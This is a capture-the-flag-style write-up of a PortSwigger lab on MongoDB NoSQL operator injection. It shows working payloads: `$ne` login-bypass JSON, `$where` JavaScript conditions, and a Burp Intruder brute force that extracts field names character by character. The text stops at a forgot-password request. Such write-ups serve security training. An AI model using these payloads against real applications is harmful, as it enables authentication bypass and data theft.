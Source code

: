 ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a80dd0b1-1876-48d8-91ec-cf7aa9d8dd1b)## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dc5af3c6-623e-490f-b857-cf1b1c2f9eaa)

## Overview :

#### Identifying field names

Because MongoDB handles semi-structured data that doesn't require a fixed schema, you may need to identify valid fields in the collection before you can extract data using JavaScript injection. 

For example, to identify whether the MongoDB database contains a **password** field, you could submit the following payload:
```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the **username field exists**, so you could send the following payloads:
```
admin' && this.username!='
```

```
admin' && this.foo!='
```

> **If the password field exists, you'd expect the response to be identical to the response for the existing field (username)**, but different to the response for the field that doesn't exist (foo). 

#### Exploiting NoSQL operator injection to extract data ?

_Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself_. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via `this` operator.

#### Extracting field names

If you have injected an operator that enables you to run JavaScript, you may be able to use the `keys()` method to extract the name of data fields. For example, you could submit the following payload:
```nosql
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

> This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character. 

## Solution :

Try to login with carlos & some random password. The following is hte request being sent.

```http
POST /login HTTP/1.1
Host: 0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
Connection: close
Cookie: session=Io6bfEgzmpTHn5IecCSuPDjHLIcB4DhP
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
"username":"carlos",
"password":"asfd"
}
```

Modify the request by adding `{"$ne" : "invalid"}` in the password field & see if we can bypass the login of carlos.
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"}
}
```
But we get a response saying that **Account is locked.Please reset the password**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b5bcbf79-75cf-4d87-b263-a43a2dabc518)

#### Injecting $where operator in JSON body -

- Injecting `"$where" : "1"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "1"
}
```
**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/80d73400-e5a0-4a74-9560-3c40deefdfa7)

Here we get **Account locked** in response.

- Injecting `"$where" : "0"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "0"
}
```

**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d5eeff0-4a3e-4c7f-83d1-313c73458187)

Here we get a different response - **Invalid username/password.**

### Extracting available field names -

Send the above request to repeater.

- Replace the `$where` parameter with this `"$where":"Object.keys(this)[0].match('^.{}.*')"` .
- Add 2 payload positions to bruteforce - `"$where":"Object.keys(this)[0].match('^.{§§}§§.*')"`

> 1. `"$where"`: This is a key in a JSON object, and it seems to be used to define a condition or filter.
>
> 2. "`Object.keys(this)[0]"`: This part of the expression is JavaScript code, not a regular expression. It's using the **Object.keys(this)** function to get an array of keys of the current object (this), and then [0] is used to access the first key in that array. So, it's essentially accessing the first key in the current object.


Set Attack Type - Cluster Bomb
Payload 1 - Numbers from 0-20
Payload 2 - Simple list - `a-z`, `A-Z`, `0-9`

Once the attack is over, sort **Payload1** & **Length** to find the **1st key field which is `id`**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c8d30d90-4167-4e8e-bf94-1990e741ab8c)


- Repeat the attack by changing hte position from 1 to 2 in the array - `"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"`

This time we got the **value of 2nd key - `username`**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/53a08b01-c3ee-4244-9967-0ba625bd74f2)

- Repeat the process for **3nd key field**, we got the value of 3rd field as - `password`

### Chaining the exploit -

So where can we use the folllwoing fields which we identified? Possibly the **forgot-password** request.

Send the *GET /forgot-password* request to repeater.
